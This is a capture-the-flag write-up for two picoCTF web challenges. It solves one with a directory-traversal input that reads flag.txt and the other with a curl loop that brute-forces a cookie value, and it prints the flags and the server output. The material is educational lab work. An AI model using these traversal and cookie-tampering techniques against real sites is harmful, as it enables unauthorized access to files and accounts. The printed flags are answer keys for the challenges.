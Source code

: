 # SOAP
TBD


# Forbidden Paths
We'll we've got a website with a field to enter files.
![Website overview](../assets/contents/forbidden_paths/1.png)

Let's try the most obvious solution and enter `/flag.txt`
![Not authorized](../assets/contents/forbidden_paths/2.png)

Let's try giving a relative path which goes all the way back like `../../../../../../../../../../../flag.txt`
![The flag](../assets/contents/forbidden_paths/3.png)
We have our flag in the website body and it's `picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}`.
(That quite surprisingly worked, and we've got the flag... That was pleasantly easy!)


# cookies
The challenge name strongly hints at something related to cookies.
Apparently there's only one cookie set with the key `name` with value `-1`
![Cookies initially](../assets/contents/cookies/1.png)

We, change the value of the `name` cookie to some other value (say `0`), and we observe a change when refreshed (the form has the state of one which has already been submitted)
![Cookies after change](../assets/contents/cookies/2.png)

We keep trying values from `0` to however many until we get any new interesting value, we write a small bash script which uses `curl` to automate this process for us.
```bash
achu@air ~ % i=0; while true; do curl -sS -L -b "name=$i" http://mercury.picoctf.net:6418/ | grep 'font-size:30px'; i=$((i + 1)); done
            <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love oatmeal raisin cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love gingersnap cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love shortbread cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love peanut butter cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love whoopie pie cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love sugar cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love molasses cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love kiss cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love biscotti cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love butter cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love spritz cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love snowball cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love drop cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love thumbprint cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love pinwheel cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love wafer cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_88acab36}</code></p>
            <p style="text-align:center; font-size:30px;"><b>I love macaroon cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love fortune cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love crinkle cookies!</b></p>
^C
achu@air ~ % 
```
`-sS` to suppress progress bar (`s`) but to propagate errors if they occur (`S`).
`-L` to follow HTTP redirects.
`-b` for setting cookie.
We pipe this to `grep` which searches for `font-size:30px` (because that's the only `p` container for that specific text size so we can narrow down to just one container with rudimentary tricks instead of proper HTML parsing).
We get the flag `picoCTF{3v3ry1_l0v3s_c00k135_88acab36}` on `name=18` iteration.
